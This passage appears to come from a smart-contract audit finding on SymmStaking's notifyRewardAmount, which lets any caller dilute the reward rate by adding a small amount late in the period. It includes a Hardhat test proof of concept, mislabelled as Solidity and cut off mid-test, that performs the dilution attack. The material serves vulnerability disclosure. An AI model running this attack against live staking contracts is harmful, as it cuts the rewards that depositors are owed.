 Key issues:

1. The function always extends the distribution period by a full duration (1 week)
2. It recalculates the rate by spreading existing rewards plus the new amount over the new period
3. When a small amount is added late in the period, the rate is drastically diluted

## POC
Add this POC to the symmStaking.behavior.ts test file.
```solidity
describe.only("Security Issues - Access Control", function () {
    it("PoC: Any user can manipulate reward rates and impact staking rewards", async function () {
        // 1. Setup - User1 deposits tokens and admin sets up a legitimate reward
        const userDepositAmount = "1000000" // 1 million tokens
        await stakingToken.connect(user1).approve(await symmStaking.getAddress(), userDepositAmount)
        await symmStaking.connect(user1).deposit(userDepositAmount, user1.address)

        // Admin sets up a proper reward rate
        const adminRewardAmount = "604800000" // 1000 tokens per second for a week (604800 seconds)
        console.log("\n--- VULNERABILITY POC: REWARD RATE MANIPULATION ---")
        console.log("Initial setup: Admin adding", adminRewardAmount, "tokens as rewards for 1 week")

        // Transfer USDT from admin to contract
        await usdtToken.connect(admin).approve(await symmStaking.getAddress(), adminRewardAmount)
        await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
        await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [adminRewardAmount])

        // Record initial reward rate
        const initialState = await symmStaking.rewardState(await usdtToken.getAddress())
        const initialRate = initialState.rate
        console.log("Initial reward rate:", initialRate.toString(), "tokens/second")

        // Fast forward time to simulate partial distribution period elapsed
        // Let's say 6 days have passed (518400 seconds) - about 85% of the period
        await time.increase(518400)
        console.log("Time advanced: 6 days (85% through distribution period)")
        
        // Calculate how much reward should be distributed so far
        const elapsedTime = 518400 // 6 days in seconds
        const distributedSoFar = BigInt(elapsedTime) * initialRate
        console.log("Rewards distributed so far:", distributedSoFar.toString(), "tokens")
        console.log("Rewards remaining:", (BigInt(adminRewardAmount) - distributedSoFar).toString(), "tokens")
        
        // 2. Attack - User2 (attacker) calls notifyRewardAmount with a small but not minimal amount
        const attackAmount = "100000" // A small amount, not just 1 wei
        console.log("\n--- ATTACK EXECUTION ---")
        console.log("Attacker contributing small amount:", attackAmount, "tokens")

        // Transfer attack amount of USDT from admin to user2 (attacker)
        await usdtToken.connect(admin).transfer(user2.address, attackAmount)

        // Attacker approves and calls notifyRewardAmount
        await usdtToken.connect(user2).approve(await symmStaking.getAddress(), attackAmount)
        await symmStaking.connect(user2).notifyRewardAmount([await usdtToken.getAddress()], [attackAmount])

        // Check the reward rate after attack
        const attackedState = await symmStaking.rewardState(await usdtToken.getAddress())
        const attackedRate = attackedState.rate
        console.log("Reward rate AFTER attack:", attackedRate.toString(), "tokens/second")
```